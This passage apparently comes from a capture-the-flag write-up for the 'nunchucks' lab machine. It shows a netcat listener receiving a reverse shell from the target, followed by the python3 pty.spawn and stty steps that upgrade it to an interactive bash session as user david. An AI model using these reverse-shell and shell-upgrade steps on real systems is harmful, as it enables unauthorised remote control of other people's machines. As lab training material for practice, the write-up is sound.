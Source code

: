 ![BurpReverseShell.png](assets/nunchucks_screenshots/BurpReverseShell.png)

We can get a propper pty shell with the python trick.

```bash
$ nc -lvnp 9001
Connection from 10.129.95.252:57206
/bin/sh: 0: cant access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
david@nunchucks:/var/www/store.nunchucks$ ^Z
[1]  + 36614 suspended  nc -lvnp 9001

# tuz @ hackbox in ~ [15:16:56] C:148
$ stty raw -echo; fg
[1]  + 36614 continued  nc -lvnp 9001

david@nunchucks:/var/www/store.nunchucks$ export TERM=xterm
david@nunchucks:/var/www/store.nunchucks$
```
